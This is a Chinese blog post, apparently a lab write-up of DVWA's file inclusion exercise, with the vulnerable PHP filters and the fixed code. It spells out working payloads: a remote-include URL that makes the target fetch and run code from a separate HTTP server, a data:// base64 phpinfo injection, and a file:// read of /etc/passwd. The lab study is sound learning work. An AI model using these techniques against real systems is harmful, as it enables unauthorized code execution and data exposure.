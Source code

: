 ```yaml
---
title: DVWA上手记录-文件包含
slug: get-start-dvwa-04
date: 2022-04-26 15:07:00
categories:
- security
tags:
- security
- DVWA
---
```


## 前言

这次玩一下 DVWA 的文件包含。

## 原理

### PHP和include

在 php 语言中 `include` 表达式用于包含指定的文件，写过 C/C++ 应该对 `#include` 预处理指令比较熟，php 的 `include` 表达式和 `#include` 在某种程度上很相似，都是从指定的搜索路径里找到文件并“包含”进来。被包含的文件可以是 php 文件也可以是别的文件，这点和 `#include` 预处理器比较像。

然后，因为 `include` 可以写做表达式的缘故，在 php 里可以 `include $file`，如果把用户传入的数据未经过检查就交给 `include` 的话就可能产生一个文件包含漏洞。

> 当一个文件被包含时，语法解析器在目标文件的开头脱离 PHP 模式并进入 HTML 模式，到文件结尾处恢复。由于此原因，目标文件中需要作为 PHP 代码执行的任何代码都必须被包括在[有效的 PHP 起始和结束标记](https://www.php.net/manual/zh/language.basic-syntax.phpmode.php)之中。

解释器的这个行为进一步拓宽了可利用的范围。

> 如果“[URL include wrappers](https://www.php.net/manual/zh/filesystem.configuration.php#ini.allow-url-include)”在 PHP 中被激活，可以用 URL（通过 HTTP 或者其它支持的封装协议——见[支持的协议和封装协议](https://www.php.net/manual/zh/wrappers.php)）而不是本地文件来指定要被包含的文件。

对 `include` 参数有足够控制的情况下，可以利用远程包含来执行任意代码。挑选合适的 url 协议可以 bypass 不够严谨的参数检查。

### 本地文件包含

本地文件包含一般可以是 `include "some/folder/" . $_GET["file"] . ".php"` 或类似的形式，此时可以通过 `file=../../malicious` 这样的 payload 来包含任意代码。

### 远程文件包含

此时对 `include` 参数有更强的控制，也可以通过 url 协议来远程包含 php 代码执行。或者 `zlib://` 之类的协议直接把要执行的代码放在 payload 里。

## 文件包含

### 信息收集

![image-20220426140326609](image-20220426140326609.png)

页面没有什么特别的，点击上面的 `file1.php`、`file2.php`、`file3.php` 能分别看到三个不同的子页面：

![image-20220426140433312](image-20220426140433312.png)

![image-20220426140441863](image-20220426140441863.png)

![image-20220426140450138](image-20220426140450138.png)

注意地址栏会发现有意思的地方：

- 首页：http://localhost:8080/vulnerabilities/fi/?page=index.php
- file1：http://localhost:8080/vulnerabilities/fi/?page=file1.php
- file2：http://localhost:8080/vulnerabilities/fi/?page=file2.php
- file3：http://localhost:8080/vulnerabilities/fi/?page=file3.php

很直接地想到 `index.php`、`file1.php`、`file2.php`、`file3.php`就是被包含的文件了。尝试提交一个 `page=file4.php`，发现彩蛋。

![image-20220426140828383](image-20220426140828383.png)

直接观察 dvwa 源码，可以发现 `include` 出现的位置是 `dvwa/vulnerabilities/fi/index.php` 里，`php.ini` 配置的 `include_path` 应该是包含当前目录 `.` 的，所以可以直接取相对路径包含任意文件。

差不多就是这样了。

### Low难度

因为已经有一个 phpinfo 页面，我们先尝试包含一下。

![image-20220426141056540](image-20220426141056540.png)

好的，直接成功。下一个问题是怎么 get shell。考虑服务在 docker 内，apache 的日志都链接到了 `/dev/stdout` 和 `/dev/stderr`，通过包含日志来执行代码是不行了。上传文件暂不考虑（因为还没开始做任意文件上传），故考虑下远程文件包含和利用url协议。

先试一下远程文件包含。`python3 -m http.server`开个 http 服务器，下面放个 `2.php`，然后构造 url：`http://localhost:8080/vulnerabilities/fi/?page=http://172.17.0.1:8000/2.php`

![image-20220426142642274](image-20220426142642274.png)

成功。

### 提高难度：Medium

看看 Medium 难度下的代码。

```php
<?php

// The page we wish to display
$file = $_GET[ 'page' ];

// Input validation
$file = str_replace( array( "http://", "https://" ), "", $file );
$file = str_replace( array( "../", "..\\" ), "", $file );

?>
```

用 `str_replace` 替换掉了 `../` 和 `http://` 来解决目录穿越和 http 文件包含。但 php 支持的 url 协议显然不止这俩...

改成`data://`协议，重写一个 payload：`http://localhost:8080/vulnerabilities/fi/?page=data://text/plain;base64,PD9waHAgcGhwaW5mbygpOyA/Pgo=`。这段 base64 是 ` echo '<?php phpinfo(); ?>' | base64` 产生的。

![image-20220426143248441](image-20220426143248441.png)

成功。

### 提高难度：High

High 难度下使用了 `fnmatch` 匹配文件名，但模式是 `file*`，所以还是有完蛋的可能。

```php
<?php

// The page we wish to display
$file = $_GET[ 'page' ];

// Input validation
if( !fnmatch( "file*", $file ) && $file != "include.php" ) {
    // This isn't the page we want!
    echo "ERROR: File not found!";
    exit;
}

?>
```

先试一下能不能用`file://`来 bypass 掉这个模式匹配。

![image-20220426143800394](image-20220426143800394.png)

好的，成功 bypass 掉了这个模式，并且包含 `/etc/passwd` 成功了。不过`/etc/shadow`就没权限了。

后续利用需要一个值得被包含的文件，如果服务器上有 mysql 配置之类的文件而且能读的话包含也不错。如果有上传点的话可以尝试传个马再包含。

我太菜，虽然本地文件包含找出来了，想不到怎么用服务器上已有的文件去 get shell，日志包含又不可用。

### 帮助文档

差不多三个难度都解好了，接着看下帮助文档拓宽下思路。

> **Objective**
>
> Read all five famous quotes from '[../hackable/flags/fi.php](http://localhost:8080/hackable/flags/fi.php)' using only the file inclusion.

哦？目标是获取 `hackable`下的 flag。稍改下 payload 很快就拿到了`fi.php`的内容。

> 1.) Bond. James Bond 2.) My name is Sherlock Holmes. It is my business to know what other people don't know.
>
> --LINE HIDDEN ;)--
>
> 4.) The pool on the roof must have a leak.

这个 `LINE HIDDEN` 有点怪，不是说 `five famous quotes` 吗，这只有4条。于是看了眼 `fi.php`，发现是这样的=。=并不是没完全拿到flag。我寻思要完全拿到的话可以在 get shell 之后把 `fi.php` 下载下来，不然单纯包含这个文件肯定是不行的。

impossible 难度代码长这样：

```php
// The page we wish to display
$file = $_GET[ 'page' ];

// Only allow include.php or file{1..3}.php
if( $file != "include.php" && $file != "file1.php" && $file != "file2.php" && $file != "file3.php" ) {
	// This isn't the page we want!
	echo "ERROR: File not found!";
	exit;
}
```

硬编码了所有可能的文件，如此一来就没有利用空间了。

## 总结

文件包含这题感觉有点emmm

怎么说呢，DVWA的题好像都有点简单过头的样子=。=虽然我是这么想但感觉作为一个才开始接触安全方面，学习时间一星期不到的人来说说出这话有点不应该，膨胀了。

因为种种原因吧，感觉今年的自己特别焦躁。工资还只有这么点，事事不顺。一边劝自己知足，换工作不会改善现状，一边又焦虑自己一无所成。

烦心。